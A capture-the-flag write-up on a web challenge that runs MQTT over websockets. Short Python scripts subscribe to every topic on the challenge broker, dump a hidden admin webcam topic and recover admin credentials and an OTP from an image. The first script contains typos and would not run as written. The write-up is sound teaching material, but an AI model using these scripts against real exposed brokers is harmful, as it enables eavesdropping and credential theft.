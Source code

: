 # time for h4x0rpsch0rr?

Hi CTF player. If you have any questions about the writeup or challenge. Submit a issue and I will try to help you understand.

Also I might be wrong on some things. Enjoy :)

![alt text](1.png "Chall")

Checking out the website we found two pages.

![alt text](2.png "Chall")

![alt text](3.png "Chall")

Trying to login to the admin panel did not do much. Gave up pretty quickly on that and moved on to some other interesting stuff.

![alt text](4.png "Chall")

We find in the source code of the first page that it's running mqtt over websockets.

    This is wikipedias definition of MQTT:
    A lightweight messaging protocol for small sensors and mobile devices, optimized for high-latency or unreliable networks, enabling a Smarter Planet and the.


 Cool. Let's use python and see what we can do with this.


We can use this script to subscribe to all topics and all sys topics. This might reveals some good stuff we can use.

```python
import paho.mqtt.client as mqtt
def on_connect(client, userdata, flags, rc):
   client.subscribe('#', qos = 1)        # Subscribe to all topics
   client.subscribe('$SYS/#')            # Subscribe to sys topics 

def on_message(client, userdata, msg):
    print "Topic %s, %s" % (client.topic, clinet.payload)
client = mqtt.Client(transport="websockets")
client.on_connect = on_connect
client.on_message = on_message
client.connect('159.69.212.240', 60805, 60) 
client.loop_forever()
```

Running the script we get a hidden topic in one of the payloads called `$internal/admin/webcam`. Subscribing to that topic and dumping the payload with this code:
```python
import paho.mqtt.client as mqtt
def on_connect(client, userdata, flags, rc):
    client.subscribe("$internal/admin/webcam")

def on_message(client, userdata, msg):
    print msg.payload
    exit()
client = mqtt.Client(transport="websockets")
client.on_connect = on_connect
client.on_message = on_message
client.connect('159.69.212.240', 60805, 60)
client.loop_forever()
```

Running the script and dumping the payload to a file:
```bash
$ python mqtt_script.py > output
```

Running `file` on it reveals an image..
```bash
$ file flag.png 
flag.png: PNG image data, 490 x 202, 8-bit/color RGB, non-interlaced
```

Opening the image we get the following:

![alt text](payload.png "Chall")

Okay, we now have the username, password and the OTP token! Lets login on the admin page.

![alt text](flag.png "Chall")


#### References:

https://morphuslabs.com/hacking-the-iot-with-mqtt-8edaf0d07b9b
